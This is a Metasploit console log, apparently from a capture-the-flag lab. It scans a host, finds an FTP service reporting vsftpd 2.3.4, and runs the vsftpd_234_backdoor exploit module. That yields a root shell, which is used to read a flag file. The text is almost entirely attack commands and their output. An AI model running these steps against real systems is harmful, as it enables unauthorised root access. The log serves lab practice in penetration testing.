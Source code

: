 
***
[msf](Jobs:0 Agents:0) >> db_nmap 10.150.150.12
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 19:36 EAT
[*] Nmap: Nmap scan report for 10.150.150.12
[*] Nmap: Host is up (0.24s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE
[*] Nmap: 21/tcp open  ftp
[*] Nmap: 22/tcp open  ssh
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 3.87 seconds
[msf](Jobs:0 Agents:0) >> db_nmap -sV -sC -p21,22 10.150.150.12
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 19:37 EAT
[*] Nmap: Nmap scan report for 10.150.150.12
[*] Nmap: Host is up (0.29s latency).
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 2.0.8 or later
[*] Nmap: |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to 10.66.66.134
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 2
[*] Nmap: |      vsFTPd 2.3.4 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   3072 1f:bc:e3:e3:5b:eb:ff:b2:30:a7:4c:33:11:bf:67:a3 (RSA)
[*] Nmap: |   256 c8:e4:18:29:59:d0:4e:ea:dc:05:50:bc:d5:6f:e5:00 (ECDSA)
[*] Nmap: |_  256 58:d5:70:6d:0d:80:71:0a:ba:8e:1c:7a:c7:37:2f:e2 (ED25519)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds
[msf](Jobs:0 Agents:0) >> search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 1
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOSTS 10.150.150.12
RHOSTS => 10.150.150.12
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.150.150.12:21 - Banner: 220 Through the portal... - into nothingness or bliss?
[*] 10.150.150.12:21 - USER: 331 Please specify the password.
[+] 10.150.150.12:21 - Backdoor service has been spawned, handling...
[+] 10.150.150.12:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.66.66.134:43459 -> 10.150.150.12:6200) at 2024-09-01 19:49:07 +0300

ls
FLAG1.txt
snap
cat FLAG1.txt
5ee499eb5d0b8e4269b13483e57adaa0b3815f48

***
